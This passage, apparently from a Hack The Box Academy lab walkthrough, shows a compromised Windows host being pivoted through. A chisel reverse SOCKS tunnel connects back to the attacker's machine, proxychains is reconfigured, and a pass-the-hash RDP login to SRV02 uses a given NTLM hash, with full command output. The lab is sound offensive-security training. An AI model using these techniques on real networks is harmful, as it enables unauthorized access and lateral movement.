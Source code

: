 Going back to the session in `Evil-WinRM`, students will connect to the `chisel` server in `client` mode:

Code: shell

```shell
.\chisel.exe client PWNIP:8080 R:socks
```

```shell-session
*Evil-WinRM* PS C:\Users\Frewdy\Documents> .\chisel.exe client 10.10.14.221:8080 R:socks

chisel.exe : 2024/07/11 07:19:55 client: Connecting to ws://10.10.14.221:8080
    + CategoryInfo          : NotSpecified: (2024/07/11 07:1....10.14.221:8080:String) [], RemoteException
    + FullyQualifiedErrorId : NativeCommandError
2024/07/11 07:19:55 client: Connected (Latency 8.8523ms)
```

Students will return to their workstations, open a new tab, and modify their `proxychains.conf` configurational file:

Code: shell

```shell
sudo sh -c 'sed -i s/socks4/socks5/g /etc/proxychains.conf'
sudo sh -c 'sed -i s/9050/1080/g /etc/proxychains.conf'
```

```shell-session
┌─[eu-academy-5]─[10.10.14.221]─[htb-ac-8414@htb-1qi0mc04vu]─[~]
└──╼ [★]$ sudo sh -c 'sed -i s/socks4/socks5/g /etc/proxychains.conf'

┌─[eu-academy-5]─[10.10.14.221]─[htb-ac-8414@htb-1qi0mc04vu]─[~]
└──╼ [★]$ sudo sh -c 'sed -i s/9050/1080/g /etc/proxychains.conf'
```

Students will proceed to connect to `SRV02` (`172.20.0.52`) via RDP using `xfreerdp`, providing the username `Leonvqz` and the hash `A35289033D176ABAAF6BEAA0AA681400`:

Code: shell

```shell
proxychains xfreerdp /v:172.20.0.52 /u:Leonvqz /pth:A35289033D176ABAAF6BEAA0AA681400 /dynamic-resolution /drive:.,student
```

```shell-session
┌─[eu-academy-5]─[10.10.14.221]─[htb-ac-8414@htb-1qi0mc04vu]─[~]
└──╼ [★]$ proxychains xfreerdp /v:172.20.0.52 /u:Leonvqz /pth:A35289033D176ABAAF6BEAA0AA681400 /dynamic-resolution /drive:.,student

[proxychains] config file found: /etc/proxychains.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.16
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  172.20.0.52:3389  ...  OK
[07:05:49:444] [35059:35061] [INFO][com.freerdp.crypto] - creating directory /home/htb-ac-8414/.config/freerdp
[07:05:49:444] [35059:35061] [INFO][com.freerdp.crypto] - creating directory [/home/htb-ac-8414/.config/freerdp/certs]
[07:05:49:444] [35059:35061] [INFO][com.freerdp.crypto] - created directory [/home/htb-ac-8414/.config/freerdp/server]
[07:05:49:523] [35059:35061] [WARN][com.freerdp.crypto] - Certificate verification failure 'self-signed certificate (18)' at stack position 0
[07:05:49:523] [35059:35061] [WARN][com.freerdp.crypto] - CN = SRV02.inlanefreight.local
[07:05:49:525] [35059:35061] [ERROR][com.freerdp.crypto] - @@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
[07:05:49:525] [35059:35061] [ERROR][com.freerdp.crypto] - @           WARNING: CERTIFICATE NAME MISMATCH!           @
[07:05:49:525] [35059:35061] [ERROR][com.freerdp.crypto] - @@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
```